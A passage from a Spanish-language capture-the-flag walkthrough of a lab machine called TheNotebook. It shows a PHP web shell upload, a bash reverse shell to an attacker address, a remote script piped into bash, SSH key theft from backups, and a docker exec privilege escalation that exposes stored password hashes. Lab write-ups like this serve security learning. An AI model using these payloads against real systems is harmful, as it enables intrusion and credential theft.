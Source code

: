 Si subimos en uploads un shell.php con este contenido...
```<?php system($_REQUEST['cmd']); ?>```

Nos dan la ruta c214a2fb80bab315fc328a5eff2892b5.php (hace un md5)
```console
└─$ md5sum shell.php
c214a2fb80bab315fc328a5eff2892b5  shell.php
```
Hay un botón de view para acceder ```http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php```
```console
└─$ curl -s http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=whoami
www-data
```
Si no hay reglas de firewall, tendríamos acceso al sistema.
```http://10.10.10.230/c214a2fb80bab315fc328a5eff2892b5.php?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.16/443 0>%261'```

```console
www-data@thenotebook:/tmp$ curl -s http://10.10.14.16/lin_info_xii.sh | bash
...
	>  Backups
/var/backups/home.tar.gz

www-data@thenotebook:/var/backups$ cp ./home.tar.gz /tmp
www-data@thenotebook:/tmp$ tar -xf home.tar.gz
www-data@thenotebook:/tmp$ cd ./home/noah/.ssh
www-data@thenotebook:/tmp/home/noah/.ssh$ cat id_rsa
# La llave de noah

└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa noah@10.10.10.230
```

--------------------------
# Part 4: Docker breackout

Enumeramos otra vez el sistema y nos topamos con:
```console
  >  SUDO NO PASSWD (sudo -l)
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01
Usage:  docker exec [OPTIONS] CONTAINER COMMAND [ARG...]

Run a command in a running container
noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 "whoami" 
root

noah@thenotebook:/tmp$ sudo /usr/bin/docker exec -it webapp-dev01 bash
root@0f4c2517af40:/opt/webapp#
```
Ya con eso estamos en el contenedor.
Este directorio tiene la web:
```console
root@0f4c2517af40:/opt/webapp# ls
__pycache__  admin  create_db.py  main.py  privKey.key	requirements.txt  static  templates  webapp.tar.gz
root@0f4c2517af40:/opt/webapp# cat create_db.py
(...)
	User(username='admin', email='admin@thenotebook.local', uuid=admin_uuid, admin_cap=True, password="0d3ae6d144edfb313a9f0d32186d4836791cbfd5603b2d50cf0d9c948e50ce68"),
	User(username='noah', email='noah@thenotebook.local', uuid=noah_uuid, password="e759791d08f3f3dc2338ae627684e3e8a438cd8f87a400cada132415f48e01a2")
(...)
```